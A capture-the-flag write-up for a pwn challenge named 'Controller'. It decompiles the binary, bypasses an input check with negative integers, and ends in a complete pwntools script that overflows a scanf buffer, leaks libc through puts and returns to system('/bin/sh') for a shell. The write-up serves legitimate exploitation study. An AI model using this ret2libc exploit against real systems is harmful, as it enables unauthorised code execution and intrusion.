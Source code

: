 # Controller

####  Description : 
![about](../../controller/about.jpeg)


#### Solution

* We were given an elf- controller and a libc
* On checking the type of file:
```
controller: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=e5746004163bf77994992a4c4e3c04565a7ad5d6, not stripped
```
* On doing checksec:
```
[*] '/home/adhi-11/Downloads/control/controller'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
* On running it:
![run](../../controller/run.png)
* As it is dynamically linked, and as NX is enabled , we might have to do a ret2libc

* Let's debug in ghidra:
* main 
```
undefined8 main(void)

{
  setvbuf(stdout,(char *)0x0,2,0);
  welcome();
  calculator();
  return 0;
}
```
* welcome functions seems normal, so let's move on to other's

* calculator
```
void calculator(void)

{
  ulong uVar1;
  char local_28 [28];
  int local_c;
  
  uVar1 = calc();
  local_c = (int)uVar1;
  if (local_c == 0xff3a) {
    printstr("Something odd happened!\nDo you want to report the problem?\n> ");
    __isoc99_scanf(&DAT_004013e6,local_28);
    if ((local_28[0] == 'y') || (local_28[0] == 'Y')) {
      printstr("Problem reported!\n");
    }
    else {
      printstr("Problem ingored\n");
    }
  }
  else {
    calculator();
  }
  return;
}
```
* calc
```

ulong calc(void)

{
  ulong uVar1;
  float fVar2;
  uint local_18;
  uint local_14;
  int local_10;
  uint local_c;
  
  printstr("Insert the amount of 2 different types of recources: ");
  __isoc99_scanf("%d %d",&local_14,&local_18);
  uVar1 = menu();
  local_10 = (int)uVar1;
  if ((69 < (int)local_14) || (0x45 < (int)local_18)) {
    printstr("We cannot use these many resources at once!\n");
                    /* WARNING: Subroutine does not return */
    exit(0x69);
  }
  if (local_10 == 2) {
    uVar1 = sub(local_14,local_18);
    local_c = (uint)uVar1;
    printf("%d - %d = %d\n",(ulong)local_14,(ulong)local_18,uVar1 & 0xffffffff);
    goto LAB_00401061;
  }
  if (local_10 < 3) {
    if (local_10 == 1) {
      uVar1 = add(local_14,local_18);
      local_c = (uint)uVar1;
      printf("%d + %d = %d\n",(ulong)local_14,(ulong)local_18,uVar1 & 0xffffffff);
      goto LAB_00401061;
    }
  }
  else {
    if (local_10 == 3) {
      uVar1 = mult(local_14,local_18);
      local_c = (uint)uVar1 & 0xffff;
      printf("%d * %d = %d\n",(ulong)local_14,(ulong)local_18,(ulong)local_c);
      goto LAB_00401061;
    }
    if (local_10 == 4) {
      fVar2 = divi(local_14,local_18);
      local_c = (uint)(long)fVar2;
      printf("%d / %d = %d\n",(ulong)local_14,(ulong)local_18,(long)fVar2 & 0xffffffff);
      goto LAB_00401061;
    }
  }
  printstr("Invalid operation, exiting..\n");
LAB_00401061:
  return (ulong)local_c;
}
```
####  OVERFLOW
* From calculator(), we understood that our inputs(say, a and b) must be in such a way that on doing any of the above operations on it, should give us 0xff3a (65338). Once we can do that, we will get to "  __isoc99_scanf(&DAT_004013e6,local_28);", which is gets as "%s" is unbound. Then we can overflow char local_28 [28]
* In calc(): ((69 < (int)local_14) || (0x45 < (int)local_18)), this condition says if our input is greater than 65, i will show an error statment. 
* Inputs : -65338 and -130676
```
p.sendlineafter(': ','-65338 -130676')
p.sendlineafter('> ','2')
```
* Now we got to scanf, to overflow we need to give a junk input of size 40 (32 + 8 padding).
 
#### LEAK

* As ASLR,that is in simple terms randomization of base address in libc, might be enabled, we have to leak the libc address. 
* Let's leak puts() address from GOT.
* Here, the first argument(address) is to be pooped into RDI. 
* The code to leak:
```
pop_rdi = next(binary.search(asm('pop rdi; ret'))) #Searching for pop rdi

payload  = 40 * b'A' # our bof-ing value with padding : 32+8
payload += p64(pop_rdi)
payload += p64(binary.got.puts) #getting the address
payload += p64(binary.plt.puts)
payload += p64(binary.sym.calculator) #calls the function calculator again

p.sendlineafter('> ',payload)

p.recvuntil('ingored\n')
address= u64(p.recv(6) + b'\0\0')
log.info('puts: ' + hex(address))
```
#### RET2LIBC
* Now that we have our addresses, we have to do a basic ret2libc. We have to overflow again and pop the address of "/bin/sh" in RDI .
```
payload = 40 * b'A'
payload += p64(pop_rdi+1)
payload += p64(pop_rdi)
payload += p64(libc.search(b"/bin/sh").__next__())
payload += p64(libc.sym.system)
```
![terminal](../../controller/terminal.png)
### Final Script
```
from pwn import *
# As, I am running locally, I use this. Else you can connect it to server.
binary = context.binary = ELF('./controller')
p = process(binary.path)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# Sening our inputs acc to condition.

p.sendlineafter(': ','-65338 -130676')
p.sendlineafter('> ','2')


pop_rdi = next(binary.search(asm('pop rdi; ret'))) #Searching for pop rdi

leak = 40 * b'A' # our overflow value with padding : 32+8
leak += p64(pop_rdi)
leak += p64(binary.got.puts)
leak += p64(binary.plt.puts)
leak += p64(binary.sym.calculator) 

p.sendlineafter('> ',leak)

p.recvuntil('ingored\n')
address= u64(p.recv(6) + b'\0\0')
#log.info('puts: ' + hex(address))
libc.address = address - libc.sym.puts
#log.info('libc.address: ' + hex(libc.address))

p.sendlineafter(': ','-65338 -130676')
p.sendlineafter('> ','2')

payload = 40 * b'A'
payload += p64(pop_rdi+1)
payload += p64(pop_rdi)
payload += p64(libc.search(b"/bin/sh").__next__())
payload += p64(libc.sym.system)

p.sendlineafter('> ',payload)
p.recvuntil('ingored\n')
p.interactive()
```
### FLAG
CHTB{1nt3g3r_0v3rfl0w_s4v3d_0ur_r3s0urc3s}

